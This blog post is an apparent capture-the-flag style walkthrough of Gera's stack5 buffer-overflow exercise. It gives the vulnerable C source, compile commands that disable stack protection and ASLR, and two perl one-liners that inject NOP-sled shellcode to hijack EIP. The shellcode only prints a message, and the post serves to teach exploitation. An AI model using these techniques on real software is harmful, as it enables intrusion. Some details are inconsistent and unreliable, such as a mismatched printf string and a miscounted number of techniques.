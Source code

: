 Gera's Warming Up on Stack #5 - Solutions
=========================================
date: 05/Jan/2013
summary: Solutions for Gera's Warming up on Stack #5 program.
tags: exploit, ctf

Following is the part 5 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #4 - Solutions](https://7h3ram.github.io/posts/20130104_geras-wuos-stack4-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program:

```c
/* stack5.c                                     *
 * specially crafted to feed your brain by gera */
int main() {
    int cookie;
    char buf[80];
    printf(*buf: %08x cookie: %08x\n*, &buf, &cookie);
    gets(buf);
    if (cookie == 0x000a0d00)
        printf(*you lose!\n*);
}
```

The above program too accepts user-input through the gets function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents
4.  Interestingly, the `you win!` statement is missing from this
    example. As such, gaining control over `cookie` or EIP alone won't
    help with the completion of this example.

Stack layout for [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are a few solutions I could think of to get the `you win!` message printed:

-   Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for Solution #1:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack5 stack5.c 2>/dev/null ; readelf -l stack5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# perl -e 'print *\x90*x51 . *\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21* . *\xc4\xf4\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!#
```

Solution #2: Inject a NOP-prefixed printf(you win!) shellcode through an environment var and overwrite EIP with its address
----------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack5
[+] WINCODE: 0xbffff726
#
# perl -e 'print *\x90*x88 . *\x26\xf7\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!
```

So, we have now successfully exploited the [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.

This was the last post in the *Geras' Warming Up on Stack* series. I plan to start another series for *Gera's Advanced Buffer Overflows* examples. Stay tuned for further updates.
